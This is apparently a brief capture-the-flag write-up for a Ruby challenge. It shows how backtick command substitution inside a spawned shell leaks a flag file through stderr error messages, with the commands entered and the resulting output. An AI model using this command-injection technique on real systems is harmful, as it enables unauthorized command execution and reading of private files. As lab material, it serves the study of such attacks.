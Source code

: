 Like php we can use `` to execute shell command.

However we use `sh` we cannot see the output, except stderr.

So we can get out flag through stderr.

`sh`
ls
cat f*
cat: 'f*': No such file or directory
cat `cat /chal/flag`
cat: DUCTF{how_to_pwn_ruby_in_four_easy_steps}: No such file or directory